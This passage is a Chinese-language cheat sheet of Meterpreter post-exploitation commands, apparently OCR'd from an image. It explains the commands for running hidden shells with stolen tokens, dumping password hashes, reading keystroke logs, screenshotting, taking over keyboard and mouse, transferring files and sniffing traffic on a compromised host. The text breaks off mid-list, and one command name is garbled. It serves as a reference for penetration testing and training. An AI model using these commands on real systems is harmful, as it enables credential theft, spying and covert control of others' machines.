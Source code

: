 通过各种攻击向量来提升到系统用户权限。

shell

以所有可用令牌来运行一个交互的shell。

execute -f cmd.exe -i

执行cmd.exe命令并进行交互。

execute -f cmd.exe -i -t

以所有可用令牌来执行cmd命令。

execute -f cmd.exe -i -H -t

以所有可用令牌来执行cmd命令并隐藏该进程。

rev2self 

回到控制目标主机的初始用户账户下。

reg command

在目标主机注册表中进行交互，创建，删除和查询等操作。

setdesktop number

切换到另一个用户界面（该功能基于那些用户已登录）。

screenshot

对目标主机的屏幕进行截图。

upload file

向目标主机上传文件。

download file

从目标主机下载文件。

keyscan_dump存储目标主机上或许的键盘记录。

getprivs

尽可能多的获取目标主机上的特权。

uietl enable keyboard/mouse

接管目标主机的键盘和鼠标。

background

将你当前的meterpreter shell转为后台执行。

hashdump

导出目标主机中的口令哈希值。

use sniffer

加载嗅探模块。

sniffer_interfaces
